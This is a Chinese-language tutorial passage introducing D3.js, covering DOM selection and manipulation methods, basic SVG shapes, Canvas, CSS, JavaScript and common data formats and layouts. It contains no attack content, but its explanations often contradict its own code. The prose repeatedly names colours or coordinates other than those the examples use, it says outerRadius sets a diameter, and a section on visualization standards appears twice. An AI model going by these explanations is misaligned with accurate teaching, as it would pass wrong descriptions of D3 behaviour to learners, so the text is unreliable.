D3.js 从不孤立使用，而是作为一个更大的技术和工具生态系统的一部分，我们利用该生态系统来构建复杂的 Web 体验。D3 项目与任何其他网页一样，是使用 DOM（文档对象模型）和 HTML 创建的。

虽然 D3 可以构建和编辑典型的 HTML 组件，如 `<div>` 除法（分区）和 `<ul>` 及 `<ol>` 列表，但我们主要使用 SVG 图形或 Canvas（一个通过脚本产生位图图像的 HTML 元素）来创建我们的可视化。此外，还可以使用传统的 CSS 样式表来增强 D3 项目并使其设计更易于管理，尤其是在大型团队中。

由于 D3 是一个 JavaScript 库，我们自然地将 D3 方法与原生 JavaScript 函数混合使用，以访问和操纵数据。D3 现在完全支持 ECMAScript 2015 或 ES6 JavaScript 版本，以及大多数最新的改进。D3 现在以模块形式提供，可以插入到我们用于创建在线项目的最新框架和库中。使用这些模块通常是推荐的方法，因为它不会破坏应用程序的整体作用域。

在本节中，我们将详细介绍这些技术，并了解它们如何融入 D3 生态系统。由于学习 SVG 对于理解 D3 至关重要，我们将更深入地探讨其基础知识，以便您可以开始创建可视化。


 ## HTML 与文档对象模型 (DOM

自从动画 GIF 和框架（frames）成为动态互联网娱乐的巅峰以来，我们已经走了很远。我们可以理解为什么 GIF 在基于 Web 的数据可视化中从未流行起来，因为 GIF 以及使用 VML 构建的信息可视化库是为旧版浏览器设计的，而 D3 是为不需要向后兼容的现代浏览器构建的。

当你访问一个网页时，首先加载的是 HTML 文件（如下所示）。浏览器解析 HTML 文件后便创建了 DOM。我们通常将其称为 DOM 树，因为它由一组嵌套元素组成，这些元素也被称为节点或标签。在我们的示例中，`<head>` 和 `<body>` 组件是 `<html` 父元素的子元素。同样，`<h1`、`<div` 和 `<p>` 标签都是 `<body>` 标签的子元素。`<div` 元素与 `<h1` 标题是兄弟关系。当你加载网页时，你在屏幕上看到的是包含在 `<body>` 标签内的元素。

```
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8">
    <title>A simple HTML file | D3.js in Action</title>
  </head>
  <body>
    <h1>I am a title</h1>
    <div>
      <p>I am a paragraph.</p>
      <p>I am another paragraph.</p>
    </div>
  </body>
</html>
```

在 DOM 中，关于每个元素的三类信息定义了它的行为和外观：样式（styles）、属性（attributes）和属性（properties）。样式决定颜色、大小、边框、不透明度等等。类（Classes）、id 和交互行为是属性的示例，但根据元素类型的不同，某些属性也会影响外观。SVG 元素中各种形状的位置、大小和比例是由属性控制的。例如，复选框的 "checked" 属性在勾选时为 true，未勾选时为 false。

属性在 SVG 元素中用于控制各种形状的位置、大小和比例。例如，复选框的 "checked" 属性在勾选时为 true，未勾选时为 false。

D3 用于选择 DOM 元素：D3 允许我们编辑 HTML 文档中的 DOM 元素，但我们必须先选择一个特定元素或一组组件，然后使用 D3 方法来操纵这些元素。

### D3 全局对象

我们已经了解到必须在 HTML 页面中包含 D3 库 `d3.min.js`。这会创建一个名为 D3 的全局 JavaScript 对象，其中包含所有入门所需的函数，类似于 jQuery 创建名为 jQuery（或 `$`）的全局对象。

### DOM 的选择

在修改 DOM 元素之前，我们必须首先使用以下方法获取它们的引用：

| 方法 | 描述 |
| :--- | :--- |
| d3.select(CSS-selector) | 根据提供的 CSS 选择器，返回 HTML 文档中第一个匹配的元素。 |
| d3.selectAll(css-selector) | 根据提供的 CSS 选择器，返回 HTML 文档中所有匹配的元素。 |

让我们看看如何结合使用这两者。

#### d3.select()

根据提供的 CSS 选择器，`d3.select()` 方法返回 HTML 文档中的第一个元素。

#### 元素名称选择

使用 `d3.select`，以下示例通过标签名称选择第一个匹配的元素。

```
<!doctype html>
<html>
<head>
    <script src="https://d3js.org/d3.v4.min.js"></script>
</head>
<body>
    <p>I LOVE Coding</p>
    <p> HELLO WORLD</p>

    <script>
        d3.select("p").style("color", "yellow");
    </script>
</body>
</html>
```

在上述示例中，`d3.select("p")` 方法返回第一个 `<p>` 元素，而 `.style("color","red")` 方法将颜色属性设置为红色。

#### 元素 Id 选择

如下所示，`d3.select()` 方法也可用于获取具有特定 id 的元素：

```
<!doctype html>
<html>
<head>
    <script src="https://d3js.org/d3.v4.min.js">
</script>
</head>
<body>
    <p id="p1">I LOVE coding</p>
    <p id="p2">HELLO WORLD</p>
    <script>
        d3.select("#p2").style("color", "green");
    </script>
</body>
</html>
```

`d3.select("#p2")` 选中 id 为 p2 的 `<p>` 元素，并应用 `.style()` 方法将其颜色设为红色，如上例所示。

因此，你可以使用 d3 的 select 方法来选择第一个匹配的元素 ()。

#### d3.selectAll()

根据提供的 CSS 选择器，`d3.selectAll()` 方法返回 HTML 文档中所有匹配的项目。下面的示例通过标签名称选择所有元素。

```
<!doctype html>
<html>
<head>
    <meta HTTP-equiv="Content-type" content="text/HTML; charset=utf-8"/>
    <script src="https://d3js.org/d3.v4.min.js"></script>
</head>
<body>
    <p>I LOVE Coding </p>
    <p> HELLO WORLD</p>
    <script>
        d3.selectAll("p").style("color", "pink");
    </script>
</body>
</html>
```

在给定示例中，`d3.selectAll("p")` 返回所有 `<p>` 元素，而 `.style("color","red")` 将字体颜色更改为红色。

#### 通过 CSS 类名选择所有元素

以下示例展示了如何根据 CSS 类名选择组件。

```
<!doctype html>
<html>
<head>
    <meta HTTP-equiv="Content-type" content="text/HTML; charset=utf-8"/>
    <script src="https://d3js.org/d3.v4.min.js"></script>
    <style>
        .myclass{
            color:blue
        }
    </style>
</head>
<body>
    <p class="myclass ">I LOVE MY COUNTRY</p>
    <p>HELLO WORLD</p>
    <p class="myclass ">BLISS</p>
```

```
<script>
    d3.selectAll(".myclass ").style('color',
    'red');
</script>
</body>
</html>
```

在上面的示例中，`d3.selectAll(".myclass")` 返回所有具有 "myclass" CSS 类的元素。使用 `.style()` 函数将样式属性设置为 `color: red`。

#### 选择嵌套元素

如下所示，`select()` 和 `selectAll()` 方法可用于选择嵌套组件。

```
<!doctype html>
<html>
<head>
    <script src="https://d3js.org/d3.v4.min.js"></script>
</head>
<body>
    <table>
        <tr>
            <td>four</td>
            <td>five</td>
        </tr>
        <tr>
            <td>six</td>
            <td>seven</td>
        </tr>
    </table>
    <script>
```

```
d3.select("tr").selectAll("td").style('background-color','pink');
```

```
</script>
</body>
</html>
```

在给定示例中，`selectAll("td")` 方法返回该 `<tr` 内所有匹配的 `<td>` 组件。最后，`.style()` 技术给这些 `<td>` 赋予了粉色背景色。方法链（Method Chaining）被定义为在 `select()` 之后立即调用 `selectAll()`。

### D3 对 DOM 的操作

我们学习了如何使用 D3 选择 DOM 元素。在本节中，我们将学习如何更改 DOM 组件。在通过 `d3.select()` 或 `d3.selectAll()` 选择元素后，D3 提供了以下 DOM 操作技术。

| 方法 | 描述 |
| --- | --- |
| text("Content") | 获取或设置所选元素的文本。 |
| append("element name") | 在元素末尾之前插入一个新元素。 |
| insert ("element name") | 向当前选中的元素添加一个新元素。 |
| remove() | 从 DOM 中删除指定元素 |
| html("...") | 获取或设置所选元素的 HTML 内容 |
| attr ("name," "value") | 获取或设置所选元素的属性（Attribute）。 |
| property ("name," "value") | 获取或设置所选元素的属性（Property）。 |
| style ("name", "value") | 返回或设置指定元素的样式。 |
| classed ("css class," bool) | 为选定元素获取、添加或删除 CSS 类 |

#### 使用 d3.selection 与 text()

要更新或更改所选项目的文本内容，请使用 `text()` 方法。

```
<!doctype html>
<html>
<head>
    <script src="https://d3js.org/d3.v4.min.js">
</script>
</head>
```

```
<body>
    <div>
        <p></p>
    </div>
    <p></p>
    <script>
        d3.select("p").text("I LOVE MY COUNTRY.")
    </script>
</body>
</html>
```

在上面的示例中，我们使用 d3 选择了 `<div>` 内第一个匹配的 `<p>` 元素。在选中 `<p>` 元素后，`select("p").text("This is paragraph.")` 将 "I LOVE MY COUNTRY" 文本插入到所选的段落元素中。

因为我们使用了 `d3.select()` 技术，文本将仅添加到第一个匹配的元素中。如果我们使用 `d3.selectAll()` 方法，所有 `<p>` 元素都将被添加文本。

#### append()

使用 `d3.selection append` 将一个新的 DOM 元素添加到所选 DOM 元素的末尾，请使用 `append()` 函数。

```
<!doctype html>
<html>
<head>
    <script src="https://d3js.org/d3.v4.min.js">
</script>
</head>
<body>
    <p>First </p>
    <p>Second</p>
    <script>
        d3.select("body").append("p");
    </script>
</body>
</html>
```

在上述示例中，`d3.select("body")` 返回 body 元素，而 `.append("p")` 在 body 结束之前恰好添加了一个新的 `<p>` 元素。


当你打开开发者控制台时，你会注意到一个全新的空 `<p` 元素。`text()` 方法可用于向新元素添加文本，如下所示：

```html
<!doctype html>
<html>
<head>
    <script src="https://d3js.org/d3.v4.min.js"></script>
</head>
<body>
    <p>First </p>
    <p>Second </p>
    <script>
        d3.select("body").append("p").text("Third.");
    </script>
</body>
</html>
```

在上面的示例中，D3 在闭合的 `<body>` 标签之前添加了一个内容为 “Third.” 的新 `<p>` 元素。

#### insert()

使用 `d3.selection.insert()` 方法创建新元素，并将其放置在所选元素的终止标签之前。

```html
<!doctype html>
<html>
<head>
    <script src="https://d3js.org/d3.v4.min.js"></script>
</head>
<body>
    <div style="border:10px solid">
        <p>First.</p>
    </div>
    <script>
        d3.select("div").insert("p").text("Second.");
    </script>
</body>
</html>
```

`d3.select(“div”)` 选择了上述示例中的 `div` 元素。然后，通过使用 `.insert(“p”)`，创建了一个新的 `<p>` 元素，并将其添加到 `div` 标签结束之前。插入的 `<p>` 元素的文本由 `.text(“Second.”)` 设置。

#### remove()

使用 `d3.selection.remove()` 方法删除选定的 DOM 元素。

```html
<!doctype html>
<html>
<head>
    <script src="https://d3js.org/d3.v4.min.js"></script>
</head>
<body>
    <p>First</p>
    <p>Second</p>
    <script>
        d3.select("p").remove();
    </script>
</body>
</html>
```

在之前的示例中，我们最初有两个 `<p>` 项目；`d3.select(“p”)` 返回第一个 `<p>` 元素，而 `.remove()` 将其从页面中删除。

#### html()

`d3.selection.html()` 方法用于设置选定元素的内部 HTML。

```html
<!doctype html>
<html>
<head>
    <script src="https://d3js.org/d3.v4.min.js"></script>
</head>
<body>
    <p>First paragraph</p>
    <script>
        d3.select("p").html("<span>This is new world</span>");
    </script>
</body>
</html>
```

`d3.select("p")` 选择了前面示例中的段落元素，而 `.html("<span>This is new world</span>")` 更改了所选 `<p>` 元素的内部 HTML。因此，原始 HTML "First paragraph" 被替换成了 "<span>This is new world</span>"。

#### attr()

要为选定的 DOM 元素应用属性，请使用 `attr()` 函数。

```html
<!doctype html>
<html>
<head>
    <script src="https://d3js.org/d3.v4.min.js"></script>
    <style>
        .error {
            color: red
        }
    </style>
</head>
<body>
    <p>Error: This is error.</p>
    <script>
        d3.select("p").attr("class","error");
    </script>
</body>
</html>
```

`d3.select("p")` 选取了前面示例中的 `<p>` 元素，而 `.attr("class","error")` 为段落元素添加了 class 属性。使用 `attr()` 方法可以将任何合法的属性分配给任何 DOM 元素。

#### property()

特定组件的属性（例如复选框或单选按钮的 checked 属性）无法通过 `attr()` 方法设置。在这种情况下，请使用 `property()` 函数为选定的 DOM 组件应用属性。

```html
<!doctype html>
<html>
<head>
    <script src="https://d3js.org/d3.v4.min.js"></script>
</head>
<body>
    <p>D3</p><label><input type="checkbox" />
    <p>jQuery</p><label><input type="checkbox" />
    <script>
        d3.select("input").property("checked", true);
    </script>
</body>
</html>
```

`d3.select("input")` 选择了第一个 `<input>` 元素，而 `property("checked", true)` 在上述示例中为复选框元素应用了 checked 属性。

#### style()

要为选定项目应用具有指定名称和值的样式属性，请使用 `style()` 函数。

```html
<!doctype html>
<html>
<head>
    <script src="https://d3js.org/d3.v4.min.js"></script>
</head>
<body>
    <p>Error: This is error.</p>
    <script>
        d3.select("p").style("color", "green")
    </script>
</body>
</html>
```

要为选区添加样式，请使用 `style()` 方法。`d3.select("p")` 选择了本例中的 `<p>` 元素，然后 `style("color", "green")` 为该 `<p>` 元素添加了绿色字体颜色。

#### classed()

要设置 class 属性或编辑选定元素的 `classList` 属性，请使用 `classed()` 函数。

```html
<!doctype html>
<html>
<head>
  <script src="https://d3js.org/d3.v4.min.js"></script>
  <style>
    .error {
      color: green
    }
  </style>
</head>
<body>
  <p>This is error.</p>
  <script>
    d3.select("p").classed('error', true);
  </script>
</body>
</html>
```

## SVG – 可伸缩矢量图形 (SCALABLE VECTOR GRAPHICS)

可伸缩矢量图形 (SVG) 的引入完全改变了 Web。SVG 图像迅速成为一种流行的 Web 开发工具。矢量图像是通过算术和几何形状生成的，而光栅图形 (PNG 和 JPG) 则由微小的像素组成，当我们缩放得太近时，这些像素会变得可见。无论屏幕尺寸或分辨率如何，矢量图都能保持清晰的外观。

SVG 图形还具有可以直接注入 DOM 的优势，允许开发者编辑和动画化其元素，同时使其能够被屏幕阅读器访问。如果构建正确，SVG 的性能也很高，其文件大小仅为光栅图像的一小部分。在使用 D3 创建数据可视化时，我们通常将 SVG 形状注入 DOM 并修改其属性，以生成构成可视化的视觉元素。了解 SVG 的工作原理、主要的 SVG 形状及其表现属性对于大多数 D3 项目至关重要。

我们要做的首要工作是从 GitHub 仓库下载现成的代码。让我们开始探索矢量图形。我们需要进入现成代码文件 (SVG_Shapes_Gallery) 并右键点击 `index.html` 文件。

从“打开方式”菜单中选择一个浏览器。由于其出色的检查器功能，我们推荐使用 Chrome 或 Firefox。当文件在新的浏览器标签页中打开时，你会看到一个矢量图形。


*SVG 图形。*

你看到的 SVG 图形包含了你在创建 D3 可视化时最常用的形状：线段 (lines)、矩形 (rectangles)、圆形 (circles)、椭圆 (ellipses)、路径 (paths) 和文本 (text)。

在与 D3 配合工作时，你通常需要告诉库应该将哪些形状附加到 DOM 中。你还需要负责了解需要计算哪些表现属性，以便形状能够具有你想要的尺寸、颜色和位置。

让我们根据以下来源 ([https://d3js-in-action-third-edition.github.io/svg-shapes-gallery/](https://d3js-in-action-third-edition.github.io/svg-shapes-gallery/)) 为上述形状图中所示的每个 SVG 元素编写代码。

在你喜爱的代码编辑器中打开 SVG Shapes Gallery 启动文件夹中的 `index.html` 文件。我们推荐 Visual Studio Code，这是一个免费、易于使用的代码编辑器，具有多种适用于前端开发的必要功能。

如你所见，`index.html` 是一个简单的 HTML 文档。如果你在浏览器中打开此文件（右键点击文件并从“打开方式”菜单中选择浏览器），你将只能看到一个空白页面。这是因为 `<body>` 元素是空的。我们将在接下来的小节中向该 `<body>` 元素添加 SVG 形状。

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>SVG Shapes Gallery | D3.js in Action</title>
</head>
<body>
</body>
</html>
```

### 响应式 SVG 容器

`<svg></svg>` 容器是 SVG 图形领域中绘制所有内容的白板。每个 SVG 形状都包含在一个 `<svg>` 父元素中。编辑 `index.html` 并在 `<body>` 元素内部插入一个 SVG 容器以查看其效果。

在浏览器中重新加载页面。此时没有任何可见内容。

```html
<body>
    <svg></svg>
</body>
```

打开浏览器的检查器工具（在浏览器窗口中右键点击并选择“检查”）。构成页面的 DOM 在检查器窗口中可见。找到 SVG 节点，通常被称为 `<svg></svg>` 容器。当你将光标在检查器中移动到该元素上时，页面上的 SVG 元素会被高亮显示。

### SVG 坐标系

现在我们已经学习了如何使内联 SVG 具有响应性，我们需要思考 SVG 形状如何放置在 SVG 容器中。SVG 容器就像一张白纸，可以在上面绘制矢量形状。矢量形状使用基本的几何原理定义，并定位在 SVG 容器的坐标系中。


笛卡尔坐标系与 SVG 坐标系非常相似。它的二维平面使用两个相互垂直的轴来确定元素的位置，分别称为 x 轴和 y 轴。

现在让我们来看看在开发 D3 应用程序时经常会遇到的一些 SVG 形状。我们还将讨论它们的主要呈现属性。这里的目的并不是要提供一个关于所有 SVG 形状和功能的详尽教程，而是涵盖那些能帮助你在 D3 之旅中顺利前行的基础知识。

### 线条 (Line)

`line` 元素是所有 SVG 形状中最基础的。它在两个点之间绘制一条直线，其位置通过属性设置。返回 `index.html` 并在 SVG 容器中插入一个 `<line />` 元素。将属性 `x1` 和 `y1` 的值分别设置为 60 和 55。这意味着我们直线的起点位于 SVG 容器坐标系的 (60, 55) 处。你可以从 SVG 容器的左上角开始，向右移动 10px，向下移动 15px 来找到线条的起点。使用 `x2` 和 `y2` 属性将线条的终点设置为 (150, 325)。

```
<svg>
  <line x1="60" y1="55" x2="150" y2="325" />
</svg>
```

为了让 SVG 线条在屏幕上显示，我们还必须设置 `stroke` 属性，该属性决定了线条的颜色。`stroke` 属性的值与 CSS 的 `color` 属性相同。它可以是一个颜色名称（red, pink 等）、一个 RGB 颜色（RGB (155,10,20)）或一个十六进制值 (#808080)。为你地线条添加一个 `stroke` 属性和你选择的颜色。

```
<line x1="60" y1="55" x2="150" y2="325" stroke="blue" />
```

`stroke-width` 属性用于确定线条的宽度。该属性接受像素的绝对值或相对值 (%)。

```
<line x1="60" y1="55" x2="150" y2="325" stroke="blue" stroke-width="5" />
```

### 矩形 (Rectangle)

正如其名，矩形元素 `<rect />` 在屏幕上绘制一个矩形形状。为了可见，`<rect />` 元素必须具备四个属性。参数 `x` 和 `y` 定义矩形左上角的位置，而 `width` 和 `height` 分别定义其宽度和高度。在你的 SVG 容器中，添加以下 `<rect />` 元素及其属性。

```
<rect x="160" y="15" width="160" height="80" />
```

通过将 `fill` 属性赋值给任何 CSS 颜色，我们可以改变其颜色。如果我们想给矩形添加边框，可以使用 `stroke` 属性。

### 椭圆与圆 (Ellipse and Circle)

在数据可视化中，圆形经常被使用。它们能自然地吸引目光，让可视化效果显得温暖而生动。`<circle />` 元素用于创建 SVG 圆形。半径 `r` 和圆心的位置 (`cx`, `cy`) 是关键属性。圆的半径是其中心到边界上任意一点的距离。将下面的圆形添加到你的形状集中。给它 10 像素的半径和 (430, 50) 的中心点。

```
<circle cx="430" cy="50" r="10" />
```

### 路径 (Path)

SVG 中的路径是所有 SVG 元素中适应性最强的。在 D3 中，它们被大量用于绘制几乎所有无法用我们之前讨论过的基本形状（线、矩形、圆和椭圆）表示的复杂形状和曲线。

通过声明 `d` 属性，我们告诉浏览器如何创建路径。`d` 属性包含一系列命令，从路径绘制的起始点，到使用何种类型的曲线，以及路径是否应该闭合。关于路径需要了解的另一点是，除非 `fill` 属性被设置为 `none` 或 `transparent`，否则浏览器将默认用黑色填充它们。

### 文本 (Text)

内联 SVG 视觉效果最吸引人的特性之一是它们可以包含可导航的文本，就像包含在 `<div>` 或 `<p>` 元素中的任何其他 HTML 文本一样。这在可访问性方面是一个显著的提升。由于数据可视化通常包含许多标签，因此了解如何使用 `<text />` 元素更改 SVG 文本至关重要。为了掌握 SVG 文本的基础知识，让我们给形状库添加标签。

你可能已经注意到，我们目前看过的所有 SVG 形状都使用了自闭合标签（`<line />`, `<rect />`, `<path />` 等）。但在处理 SVG 文本元素时，我们必须使用起始标签和结束标签。

```
<text>line</text>
```

处理 SVG 文本时需要考虑的另一个点是文本如何流动。常规 HTML 元素根据控制内容流的特定标准放置在页面上。如果你在网站上放置一堆 `<div>` 组件，它们会自动堆叠在一起，其内容会重新流动以确保不离开其容器。SVG 文本不会流动，每个 SVG 元素必须单独放置。设置其 `x` 和 `y` 特性是一个选择。如果我们使用这些属性将文本放置在 (40, 160)，标签 “line” 将显示在形状库的 SVG 线条下方。

```
<text x="40" y="160">line</text>
```

### 分组元素 (Grouping Elements)

组元素是我们本节将看到的最后一个 SVG 元素。组或 `<g>` 元素与其他 SVG 元素的不同之处在于，它没有图形表示，也不作为一个有界的空间存在。相反，它是一种逻辑上的组件排列。在开发包含多个形状和文本元素的可视化图表时，你会经常需要使用组。

如果我们希望矩形和 “rect” 标签在形状库中一起出现并作为一个整体移动，我们可以将它们都放在一个 `<g>` 元素中，如下例所示。注意 `<rect>` 元素的左上角已更改为 (10, 30)。为了使文本保持在 `<rect>` 下方，将其放置在 (0, 45)。

```
<g>
  <rect x="10" y="20" width="30" height="50" />
  <text x="0" y="45">rect</text>
</g>
```

在 SVG 容器中移动组是通过 `transform` 属性完成的。`transform` 属性比之前讨论的属性稍微复杂一些，但与 CSS 的 `transform` 属性完全相同。它接受一个转换（translate, rotate, scale 等）或一组转换作为值。要移动一个组，我们使用 `translate(x, y)` 转换。如果我们想将 `<rect>` 和 `<text>` 元素移回原位，我们需要对 `<g>` 元素应用向右 260 像素、向下 175 像素的平移。为此，我们将其 `transform` 属性设置为 `transform="translate(510,55)"`。

```
<g transform="translate(510,55)">
  <rect x="0" y="0" width="30" height="50" />
  <text x="0" y="45">rect</text>
</g>
```

到目前为止，关于如何在 D3 项目中添加各种形状库代码已经更加清晰了。

## Canvas 和 WebGL

我们已经指出，在 D3 应用程序中经常使用 SVG 元素。有时我们可能需要从海量数据集中生成复杂的可视化，在这种情况下，常规的 SVG 技术可能会导致性能问题。需要记住的是，对于数据可视化中的每个图形细节，D3 都会向 DOM 添加一个或多个 SVG 节点。拥有数百个节点和链路的大型网络可视化就是一个很好的例子。

Canvas 是一个客户端绘图 API，使用脚本（通常是 JavaScript）创建图形和动画。它不会向 DOM 添加 XML 元素，这在利用大数据集构建可视化时能显著提高性能。我们还可以使用 WebGL API 在 Canvas 中生成 3D 对象。

## 层叠样式表 (CSS)

它是一种编程语言，用于描述 DOM 元素在屏幕上如何呈现以及外观如何。从页面的整体网格布局到文本使用的字体族，再到散点图中圆形的颜色，CSS 可以将一个简单的 HTML 文件变成一个令人惊叹的网页。在 D3 项目中，我们通常使用内联样式或通过外部样式表来应用 CSS 样式。内联样式通过 `style` 属性应用于元素，如下例所示。`style` 属性可用于 HTML 和 SVG 元素，D3 提供了一个方便的方法来设置或更改它。

```
<div style="padding: 18px; background: #00ced1 ;"> ... </div>
<text style="font-size: 14px; font-family: serif;"> ... </text>
```

只有应用了内联样式的元素会受到影响。如果我们希望将相同的设计应用于多个元素，必须为每个元素提供相同的 `style` 属性。虽然可行，但这并不是最高效的方法。

另一方面，外部 CSS 样式表非常适合全局应用样式。一种技术是要求 D3 为许多项添加相同的类名。然后我们在外部样式表中将此类名用作选择器，并向目标元素组应用相同的样式属性。这种方法效率更高，尤其是在维护大型项目时。它还遵循关注点分离原则，即我们将由 JavaScript 控制的行为与由 CSS 调节的样式分开。

在 CSS 样式表中：

```
.my-class {
  font-size: 14px;
  font-family: serif;
}
```

在 DOM 中：

```
<text class="my-class"> ... </text>
```

## JavaScript

D3 库是一个 JavaScript 库。它通过添加新函数来扩展 JavaScript 的基础功能。这意味着在学习 D3 时，具备一定的 JavaScript 基础经验会很有帮助。这也意味着在创建 D3 项目时，你可以访问所有现有的 JavaScript 功能。


## 方法链

在线上搜索 D3 项目示例时，你会发现方法被连续调用在同一个选择集（Selection）上。这就是方法链，它有助于保持代码简洁易读。

换行（JavaScript 会忽略）和对链式方法进行缩进在 D3 中非常流行。缩进让我们能看清正在处理的部分，使代码更易于阅读。

```javascript
d3.selectAll("div")
    .append("p")
        .attr("class", "my-HOME")
        .text("Now")
    .append("span")
        .text("More Now")
        .style("font-weight", "500");
```

## 数组与对象操作

这是 D3 的核心，数据经常以 JavaScript 对象的形式组织。理解这些对象的构建方式，以及如何访问和修改它们包含的数据，能极大地帮助你用 D3 创建可视化效果。

```javascript
const arrayOfNumbers = [18, 81, 2, 400, 80];
const arrayOfStrings = ["black", "blue", "red", "orange"];
```

数组中的第一个元素索引为 0，数组中的每个元素都有一个称为索引的数字位置。

```javascript
arrayOfNumbers[0]    // => 18
arrayOfStrings[2]    // => "red"
```

## 数据标准

我们已经确立了展示不同类型数据的通用方法，这也是我们能够自由创建如此多精彩数据可视化的原因之一。数据可以出于不同原因以多种方式呈现，但通常可以归为以下几类：表格数据、嵌套数据、网络数据、地理数据、原始数据和对象。

- **表格数据：** 在电子表格或数据库表中，表格数据被组织成列和行。虽然在 D3 中你几乎总是会构建对象数组，但以表格格式导入数据通常更高效、更简单。表格数据的格式由用于分隔它的字符决定。你可以使用逗号作为分隔符的逗号分隔值（CSV），使用分号或管道符号作为分隔符的制表符分隔值。

- **嵌套数据：** 嵌套数据很常见，对象作为子对象的子对象存在，并持续嵌套。D3 许多最直观的布局都建立在分层数据之上，这些数据可以表示为树状结构，或打包在圆形或方形中。数据通常不会以这种格式输出，将其组织成这种格式需要一些脚本编写，但这种表示方式的灵活性完全值得付出努力。

- **网络数据：** 网络无处不在。无论是社交网络流的原始输出、交通网络还是流程图，网络都是理解复杂系统的一种有力技术。节点-连线图通常用于描绘网络。与地理数据类似，网络数据也包含多种标准。使用像 Gephi 这样的免费网络分析工具，可以轻松地将网络数据转换为这些数据类型。

- **地理信息：** 地理数据将位置表示为点或形状，用于构建当今各种在线地图。由于在线地图的巨大普及，你可以为任何项目获取大量公开的地理数据。地理数据有多种标准，但本书主要关注两种：GeoJSON 和 TopoJSON。尽管地理数据可以采用多种格式，但像 Quantum GIS 这样易于获取的地理信息系统（GIS）技术，允许开发者将其转换为适用于网络分发的 GIS 格式。

- **原始数据：** 所有东西，包括图像和文本块，都是数据。虽然大多数数据可视化使用颜色和大小传达的形状来描述数据，但在 D3 中，有时线性叙述性文本、图像或视频是传达数据的理想方式。如果你为需要理解复杂系统的受众设计应用，却认为文本或图像处理在某种程度上独立于数值或分类数据的形式表示，那么你就任意限制了自己的表达能力。D3 中可以实现文本和图形的布局与排版，这在传统上与较旧的网络出版类型相关联。

- **对象：** 字面量和对象是你将与 D3 一起使用的两种数据片段形式。字面量很简单，比如字符串字面量中的 "Apple" 或 "beer"，或者数字字面量中的 64273 或 5.44。JavaScript 对象，或等效的 JSON（JavaScript 对象表示法——一种类似 JavaScript 对象的数据描述方式），不易理解，但如果你想进行高级数据可视化，它是必不可少的。

## Node 与 JavaScript 框架

在过去的十年里，JavaScript 经历了显著的发展。node.js 的出现和 JavaScript 框架作为大多数项目的标准被广泛采用，是现代 JavaScript 的两大主要趋势。

NPM，即 Node 包管理器，是 D3 项目最重要的 Node 技术。NPM 允许你安装“模块”，这些是你可以用于项目中的小型 JavaScript 代码库。如果模块不是一个庞大的整体结构，你就不必在多个文件中包含大量 `<script>` 标签引用，并且可以限制应用程序中包含的代码量。

## 数据转换布局

D3 布局实现了大部分魔力，因为它们可以以多种方式修改你的数据，以便你稍后进行可视化。饼图、矩形树图和堆叠图表将使用布局来创建，使用分区和打包布局的非典型可视化也将如此。

数据可视化世界中最不受欢迎的图表是**饼图和环形图**。创建路径需要弧生成器，`outerRadius()`、`innerRadius()`、`startAngle()` 和 `endAngle()` 是四个主要方法。`outerRadius()` 定义圆的直径，而 `innerRadius()` 指定你想在其中挖的孔的直径。

`innerRadius()` 函数区分了饼图和环形图；饼图的内部半径为零。

**矩形树图**被广泛用于描绘层次结构，其中每个项目的相对值也需要显示。你可能在显示硬盘上哪些文件夹占用最多空间的工具中见过类似的图表。它通常用于此目的，因为它让你可以看到哪些文件夹嵌套在哪些文件夹内，以及它们的大小。矩形树图也常用于说明政府财政，每个部门可以有多个子部门，每个子部门的预算都构成上级部门的总预算。矩形树图布局使用的数据通常是一个根对象，其中包含嵌套的对象，只有叶对象（没有子对象的对象）具有值。

因为它是层次布局家族的一员，**打包布局**可以使用我们当前拥有的相同数据生成更优秀的图表。与矩形树图类似，打包布局用于显示层次结构，但与矩形树图不同的是，它侧重于所呈现项目之间的父子关系，而不是每个项目的大小。

### 分层堆叠

接下来是堆叠布局。你已经学会了如何制作柱状图、折线图和面积图，但如果我们想用这些图表来表示多个变量呢？

一种选择是将变量显示为重叠的区域。使这些区域略微透明，以便读者能够区分它们。这在比较变量时很有用。

## 基于 D3.js 的数据可视化标准

数据可视化的普及程度从未像现在这么高。不仅在工作中，在我们的休闲和日常生活中，也有大量的地图、图表以及系统和统计信息的复杂表示。随着这种普及，用于数据和信息可视化的类和子类库也在不断增长，并伴有美学指南以提高可读性和理解力。

你的受众，无论是公众、研究人员还是决策者，都已经习惯了我们过去认为高度抽象和复杂的数据可视化。D3 库非常流行


不仅数据科学家，记者、艺术家、历史学家、IT工作者，甚至粉丝社群都参与其中。

将数据集轻松修改为流图、树状图或直方图的相对便捷性，容易让人产生“信息可视化更重形式而非实质”的印象。幸运的是，成熟的指导原则明确规定了针对特定数据类型和系统应采用的图表与方法。

尽管D3允许开发者尝试色彩与样式，但大多数开发者致力于创建能解决实际问题的数据可视化。由于D3诞生于成熟的信息可视化环境，它提供了大量辅助函数，让开发者能专注于界面与设计，而非纠结于颜色和坐标轴。

在创建初始可视化项目时，应保持简洁——通常直方图优于小提琴图，层级网络结构（如树状图）优于力导向图。视觉上更复杂的数据呈现技巧虽易引发关注，但也可能导致观众只看到他们想看的内容，或过于关注图形的美学而非数据本身。打造精美视觉效果无可厚非，但我们必须牢记：任何数据可视化的核心目的都是讲述故事。

然而，要正确运用信息可视化，必须明确该做什么与不该做什么。你必须深入理解数据本身和目标受众。D3赋予我们极大的灵活性，但正如俗话所言：“能力越大，责任越大。”了解不同图表更适合呈现特定类型的数据固然重要，但更关键的是认识到：若未经过周全设计和专业考量，数据可视化可能会产生误导。

## D3格式的信息可视化标准

信息可视化从未像现在这样流行。不仅在职场中，休闲与日常生活里也充斥着地图、图表以及系统与统计数据的复杂呈现。这种流行催生了日益丰富的数据与信息视觉表示类库与子类库，以及提升可读性与理解度的美学指南。

无论是普通大众、研究人员还是决策者，受众都已习惯我们曾认为高度抽象且复杂的数据可视化。因此，像D3这样的库不仅在数据科学家中广受欢迎，也深受记者、艺术家、历史学家、IT工作者乃至粉丝社群的青睐。

然而，过多的选择可能令人应接不暇，而将数据集轻松转换为流图、树状图或直方图的便捷性，进一步强化了“信息可视化重形式轻内容”的观念。

幸运的是，成熟的指导原则明确了针对不同系统各类数据应采用的图表与方法。尽管D3允许开发者处理色彩与样式，但多数开发者仍致力于创建解决实际问题的可视化方案。由于D3构建于成熟的信息可视化环境，它提供了丰富的辅助函数，使开发者能专注于界面与设计，而非颜色和坐标轴。

## 基础知识回顾

